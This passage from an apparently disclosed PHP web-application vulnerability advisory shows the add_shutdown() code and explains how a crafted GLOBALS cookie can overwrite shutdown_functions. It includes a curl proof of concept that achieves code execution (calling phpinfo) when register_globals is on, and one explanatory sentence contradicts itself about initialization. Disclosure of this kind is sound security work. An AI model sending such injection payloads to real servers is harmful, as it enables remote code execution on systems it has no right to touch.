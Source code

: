 ```
}
```

The $shutdown\_functions was initialized via add\_shutdown() function in init.php:

```
// Set up any shutdown functions we need to run globally
add_shutdown('send_mail_queue');
```

But add\_shutdown() function initialization handler is wrong:

```
function add_shutdown($name, $arguments=array())
{
	global $shutdown_functions;

	if(!is_array($shutdown_functions))
	{
		$shutdown_functions = array();
	}

	if(!is_array($arguments))
	{
		$arguments = array($arguments);
	}

	if(is_array($name) && method_exists($name[0], $name[1]))
	{
		$shutdown_functions[] = array('function' => $name, 'arguments' => $arguments);
		return true;
	}
	else if(!is_array($name) && function_exists($name))
	{
		$shutdown_functions[] = array('function' => $name, 'arguments' => $arguments);
		return true;
	}

	return false;
}
```

In the above code we see that run\_shutdown() function is vulnerable because $shutdown\_functions is initialized correctly and therefore result in arbitrary code execution.

##III. Proof of Concept

When request\_order = "GP" and register\_globals = On, remote code execution by just using curl on the command line:

```
$ curl --cookie "GLOBALS=1; shutdown_functions[0][function]=phpinfo; shutdown_functions[0][arguments][]=-1" http://www.target/
```

##IV. P.S.I
